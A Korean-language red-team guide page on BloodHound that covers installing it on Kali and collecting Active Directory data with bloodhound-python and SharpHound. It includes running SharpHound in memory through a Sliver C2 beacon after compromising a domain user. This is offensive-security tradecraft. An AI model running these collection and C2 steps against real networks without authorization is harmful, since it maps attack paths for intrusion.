 # 블러드하운드

![이미지 출처: https://bloodhound.readthedocs.io/en/latest/data-analysis/bloodhound-gui.html](<../.gitbook/assets/image (5) (1) (1) (1) (1).png>)

[블러드하운드(BloodHound)](https://github.com/BloodHoundAD/BloodHound)는 액티브 디렉토리의 LDAP 데이터를 수집하고 이를 그래프 자료구조 형식으로 보여주는 툴이다. 수만명의 도메인 유저 계정, 수십만대의 호스트들의 관계와 정보를 일일히 수동으로 정리하는 것은 불가능에 가깝다. 블러드하운드는 이를 도와주기 위해서 만들어진 툴이다.&#x20;

블러드하운드는 총 3가지 툴로 운영된다.&#x20;

1. 블러드하운드 Data Ingestor - 도메인 컨트롤러에 접근에 LDAP 데이터를 추출한 뒤, 도메인 유저, 호스트, 그룹, 세션 등의 데이터를 json 형태로 저장하는 툴.&#x20;
2. Neo4J - 블러드 하운드의 백엔드 데이터베이스. Ingestor가 추출한 json 파일을 neo4j 데이터베이스에 불러온 뒤 블러드하운드 GUI에서 사용할 수 있게된다.&#x20;
3. 블러드하운드 GUI  - 백엔드 데이터베이스의 데이터를 그래프 자료구조의 형식으로 보여주는 프론트엔드 GUI 툴.&#x20;

### 설치&#x20;

블러드하운드 설치는 [공식 문서](https://github.com/BloodHoundAD/BloodHound)를 참고한다.&#x20;

```
# 칼리 리눅스 
apt update -y 
apt install bloodhound -y 
neo4j console 

# http://localhost:7474 방문 후 neo4j:neo4j 를 이용해 로그인. 
# 이후, 비밀번호를 바꿔줌.

# 블러드하운드 실행 후 neo4j:<바뀐-비밀번호>로 로그인 
bloodhound 
```

![블러드하운드 GUI 로그인 화면](<../.gitbook/assets/image (8) (1) (1).png>)

### 사용 - 데이터 Ingestor

블러드하운드를 이용하기 위해선 타겟 도메인의 액티브 디렉토리 데이터를 Ingestor를 이용해 추출해야한다. 액티브 디렉토리 데이터를 추출하기 위해서는 도메인 유저의 계정정보나 세션이 필요하다. 초기 침투가 성공적이였다면 대부분 도메인 유저 (ex. 회계 부서의 김인턴) 의 문맥을 갖게된다.&#x20;

데이터 Ingestor는 다양한 액티브 디렉토리의 정보들을 빼내올 수 있다. 공식문서의 `-c, Collection method`를 참고한다.&#x20;

리눅스에서는 [`bloodhound-python`](https://github.com/fox-it/BloodHound.py) 툴을, 윈도우에서는 [`SharpHound`](https://github.com/BloodHoundAD/SharpHound) 툴을 이용한다.&#x20;

{% tabs %}
{% tab title="리눅스" %}
리눅스에서는 bloodhound-python을 이용한다.&#x20;

```
# 설치 
pip3 install bloodhound 

# 실행 
bloodhound-python -c DCOnly -u <user> -p <pass> -d <domain> -dc <dc-fqdn>
bloodhound-python -c DCOnly -u low -p 'Password123!' -d choi.local -dc dc01.choi.local
```
{% endtab %}

{% tab title="윈도우 - 콘솔" %}
콘솔을 갖고 있는 경우 SharpHound를 이용한다. SharpHound는 .NET 어셈블리이기 때문에 직접 실행하거나 파워쉘에서 불러온 후 메모리상에서 실행할 수 있다.&#x20;

```
# Sharphound.exe 실행 
./SharpHound.exe -c <method> -d <domain>
./SharpHound.exe -c All -d choi.local
```
{% endtab %}

{% tab title="윈도우 - 비컨" %}
SharpHound는 .NET 어셈블리이기 때문에 비컨의 메모리상에서 execute-assembly 형식으로 사용할 수 있다.&#x20;

```
# SharpHound Release를 다운받거나, 깃-클론 뒤 컴파일한다. 
wget https://github.com/BloodHoundAD/SharpHound/releases/download/v1.0.3/SharpHound-v1.0.3.zip . 
unzip SharpHound-v1.0.3.zip

# 슬리버의 execute-assembly를 이용해 메모리상에서 SharpHound를 실행한다. 
sliver> use <beacon-name>
sliver> execute-assembly /root/redteam/tools/SharpHound.exe "-c All -d choi.local"

# 다운로드 할 때는 백슬래쉬 이스케이프를 해주거나 큰 따옴표를 이용한다. 
sliver> download <원격-파일경로> <로컬-파일경로>
sliver> download "C:\Users\Administrator\Downloads\20220613235339_BloodHound.zip" /root/redteam/bh.zip
```
{% endtab %}
{% endtabs %}

### 사용 - 블러드하운드 GUI

다운 받은 zip파일을 블러드하운드 GUI에다가 드래그 & 드롭 하면 된다.&#x20;

![](<../.gitbook/assets/image (3) (1) (1) (1).png>)

이후 Analysis에서 미리 준비된 쿼리를 이용하거나 하단의 `Raw Query` 를 통해 직접 Cypher Query를 사용한다.&#x20;

### 레퍼런스&#x20;

{% embed url="https://bloodhound.readthedocs.io/en/latest/" %}

{% embed url="https://github.com/BloodHoundAD/BloodHound" %}

{% embed url="https://github.com/BloodHoundAD/SharpHound" %}

{% embed url="https://github.com/fox-it/BloodHound.py" %}
